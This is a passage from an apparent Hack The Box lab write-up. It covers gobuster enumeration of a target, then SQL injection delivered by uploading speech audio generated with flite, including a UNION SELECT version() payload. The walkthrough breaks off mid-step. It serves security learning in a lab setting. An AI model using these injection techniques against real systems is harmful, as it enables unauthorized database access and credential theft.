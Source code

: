 We try to open it on the browser

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-21-HackTheBox-AI/2021-09-21-HackTheBox-AI%2009:25:24.png)

Default apache page, we run gobuster to find anything in it

We run with -x php to look for this files too

```sh
gobuster dir -u http://10.10.10.163 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30 -x php
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-21-HackTheBox-AI/2021-09-21-HackTheBox-AI%2006:58:43.png)

We found several paths and folders. Only two of them are useful the `ai.php` and the `intelligence.php`

On ai.php seems that we can upload wav files

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-21-HackTheBox-AI/2021-09-21-HackTheBox-AI%2007:00:23.png)

And on intelligence.php seems to be a wordlist to be used

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-21-HackTheBox-AI/2021-09-21-HackTheBox-AI%2007:01:00.png)

## SQLInjection

We must send wav files with the text inside it, for that we will use the `flite` command

```sh
flite -w /tmp/test.wav -voice rms -t "open single quote"
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-21-HackTheBox-AI/2021-09-21-HackTheBox-AI%2007:05:12.png)

And we upload it to the server

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-21-HackTheBox-AI/2021-09-21-HackTheBox-AI%2007:06:53.png)

And we see that we have a SQLInjection

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-21-HackTheBox-AI/2021-09-21-HackTheBox-AI%2007:07:13.png)

We get the Database Version

```sh
flite -w /tmp/test.wav -voice rms -t "open single quote space union select version open parenthesis close parenthesis comment database"
'  union select version()-- -
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-21-HackTheBox-AI/2021-09-21-HackTheBox-AI%2007:09:05.png)

After some poking arround we found the query to extract the password

Username
